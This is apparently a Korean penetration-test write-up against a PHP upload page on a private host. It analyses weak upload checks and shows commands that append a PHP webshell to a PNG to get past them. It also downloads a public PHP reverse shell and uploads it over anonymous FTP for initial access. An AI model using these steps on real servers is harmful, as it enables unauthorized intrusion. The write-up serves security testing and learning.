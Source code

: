 2. 사용자가 업로드한 원본 파일명 그대로 `basename()`으로 추출하여 저장하는데, 파일명에 특수문자(`../`)가 들어간 경우 `basename()`만으로는 경로 조작을 막기 힘듦 -> 디렉터리 트래버셜 위험 가능성 존재

3. `strtolower()` 함수를 이용해 확장자를 소문자로 변환한 뒤 `$imageFileType` 변수에 저장한 후 확장자 비교하여 php와 관련된 확장자일 경우 업로드 하지 못하게 함

4. `getimagesize()` 함수로 실제 파일 내용을 검사하여 MIME이 `image/jpeg` 또는 `image/png`인 경우에만 업로드 가능하지만 해당 함수는 파일 앞부분(헤더)만 검사하므로, 뒤에 PHP 코드를 숨겨 업로드 가능성 존재함

  

- 파일 업로드 우회 증명 (`http://10.0.5.116/staging/upload.php`)

- 파일 이름과 헤더를 조작한 `shell.php` 파일 업로드 성공

```

└─# cat cat.png shell.php > shell.php;.png

```

- ![alt text](image-13.png)

  
  

파일 업로드 취약점으로 공격이 가능하지만 더 간단한 방법인 FTP 파일 업로드를 이용하여 초기 침투를 진행했다.

  

- 먼저, 구글링으로 `windows-php-reverse-shell`를 찾아 점검자 kail에 다운로드 후 타켓 호스트의 ftp 서버에 업로드했다.

```

└─# wget http://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php last.php

  
  

└─# ftp 10.0.5.116

[ . . . ]

Name (10.0.5.116:root): anonymous

331 Password required for anonymous

Password:

ftp> ls last.php

200 Port command successful

150 Opening data channel for directory list.

-rw-r--r-- 1 ftp ftp 9404 Aug 12 14:57 last.php

```


[01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz
[01]: Amazon Elastic Network Adapter
[01]: 10.0.5.116
[02]: fe80::4c64:ec7d:fde5:903c